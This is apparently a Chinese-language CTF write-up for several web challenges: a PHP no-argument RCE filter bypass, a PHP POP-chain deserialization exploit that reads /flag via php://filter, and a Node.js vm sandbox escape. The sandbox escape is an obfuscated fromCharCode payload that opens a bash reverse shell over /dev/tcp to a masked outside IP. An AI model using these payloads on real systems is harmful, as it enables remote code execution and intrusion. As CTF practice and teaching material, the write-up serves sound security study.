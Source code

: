 
### ezrce
#无参rce 
```php
<?php  
function waf($poc)  
{  
    if(preg_match("/[0-9]|get_defined_vars|getallheaders|next|prev|end|array_reverse|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $poc)){  
        echo "hacker! you die!<br/>";  
        return "666";  
    }  
    return $poc;  
}
```

使用session_start绕过waf限制

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603120816.png)

### ezpop

```php
<?php  
highlight_file(__FILE__);  
  
class night  
{  
    public $night;  
  
    public function __destruct(){  
        echo $this->night . '哒咩哟';  
    }  
}  
  
class day  
{  
    public $day;  
  
    public function __toString(){  
        echo $this->day->go();  
    }  
  
    public function __call($a, $b){  
        echo $this->day->getFlag();  
    }  
}  
  
  
class light  
{  
    public $light;  
  
    public function __invoke(){  
        echo $this->light->d();  
    }  
}  
  
class dark  
{  
    public $dark;  
  
    public function go(){  
        ($this->dark)();  
    }  
  
    public function getFlag(){  
        include(hacked($this->dark));  
    }  
}  
  
function hacked($s) {  
    if(substr($s, 0,1) == '/'){  
        die('呆jio步');  
    }    $s = preg_replace('/\.\.*/', '.', $s);    $s = urldecode($s);    $s = htmlentities($s, ENT_QUOTES, 'UTF-8');  
    return strip_tags($s);  
}  
  
$un = unserialize($_POST['‮⁦快给我传参⁩⁦pop']); // throw new Exception('seino');


```

复制代码到本地编辑器发现参数里存在unicode反转字符
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603131102.png)


```php
<?php
class night{
    public $night;
}
class day{
    public $day;

}
class dark{
    public $dark;
}
class light{
    public $light;
}
$a=new night();
$b=new day();
$c=new dark();
$d=new light();
$e=new day();
$f=new dark();
$a->night=$b;
$b->day=$c;
$c->dark=$d;
$d->light=$e;
$e->day=$f;
$f->dark="php://filter/read=convert.base64-encode/resource=/flag";
echo(serialize($a));
```

传参
`%E2%80%AE%E2%81%A6%E5%BF%AB%E7%BB%99%E6%88%91%E4%BC%A0%E5%8F%82%E2%81%A9%E2%81%A6=<序列化后的数据>`



### Esc4pe_T0_Mong0
#js_jali

*source*
```js
//const { MongoClient } = require("mongodb");
//const client = new MongoClient("mongodb://localhost:27017/");

const vm = require('vm');

const express = require("express");
const bodyParser = require('body-parser');
const app = express();

const isValidCode = (code) => {
    const isLengthValid = code.length < 365;
    const isASCII = /^[\x20-\x7e]+$/.test(code);
    const containsInvalidChars = /[.\[\]{}\s;`'"/\\_<>?:]/.test(code);
    const doesNotContainImport = !code.toLowerCase().includes("import");
    const doesNotContainUnescape = !/%(?:d0|d1|%[89abAB][0-9a-fA-F])/.test(code);

    return (
      isLengthValid &&
      isASCII &&
      !containsInvalidChars &&
      doesNotContainImport &&
      doesNotContainUnescape
    );
};

app.use(bodyParser.json());

app.get('/', function (req, res) {
    res.sendFile( __dirname + "/static/index.html" );
});

app.get('/readfile', function (req, res) {
    res.sendFile( __dirname + "/app.js" );
});

app.get('/exec', (req, res) => {
    const code = req.query.code;
    if (!code) {
        res.status(400).json({ error: 'Code is required.' });
        return;
    }

    if (isValidCode(code)) {
        try {
            const sandbox = {};
            const script = new vm.Script(code);
            const result = script.runInNewContext(sandbox);
            res.json({ result });
        } catch (err) {
            res.status(400).json({ error: err.message });
        }
    } else {
        res.status(400).json({ error: 'you cant bypass my vm best waf!' });
        return;
    }
});

//app.get('/getflag', function (req, res) {
//    todo...
//});

app.listen(3000, () => console.log(`nodeapp listening on http://localhost:3000`));
```

可以看到在沙箱里执行了命令,需要逃逸

---



```js
with(String)with(f=fromCharCode,this)with(constructor)with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,c=99,e,s=115,s))())with(mainModule)with(require(f(c,h=104,105,108,100,95,p,r,111,c,e,s,s)))exec(f(98,97,s,h,32,45,c,32,34,98,97,s,h,32,45,105,32,62,38,32,47,100,e,118,47,t,c,p,47,X,X,46,X,X,X,46,X,X,46,X,X,X,47,X,X,X,X,32,48,62,38,b,34))
```

感觉我的vps长度不够啊,12位ip地址+5位端口

> • with() - 它用于环境对象。它接受一个对象作为参数,并将该对象的属性添加到当前作用域。这就允许代码访问with()语句中的对象的属性,而不使用对象名称。在这个例子中,它用来访问构造函数。
> 
> • fromCharCode() - 它用来从ASCII码生成字符串。在这个例子中,它生成了恶意命令的字符。
> 
> • mainModule 和 require() - 它们用于访问Node.js模块。require()用于加载模块,mainModule指向主模块。
> 
> • constructor - 构造函数,它用来创建新对象。在这个例子中,它用于创建一个新对象,以便使用with()语句。
> 
> • exec() - 它用于执行 shell命令。在这个例子中,它执行了反向Shell命令。
> 
> 总的来说,这段代码主要是利用了JavaScript的 with()语句、fromCharCode()函数来生成命令字符串,然后使用require()和exec()这些Node.js API来执行该命令。通过这样的手法,它试图规避检测和隐藏其真实目的。

后面就靠wp脑补了

```shell
#打开mongodb服务
service mongodb start
#启动!
mongo
#查看数据库
show databases
#可以看到secret库,拿下!
```



### unserialize
php反射
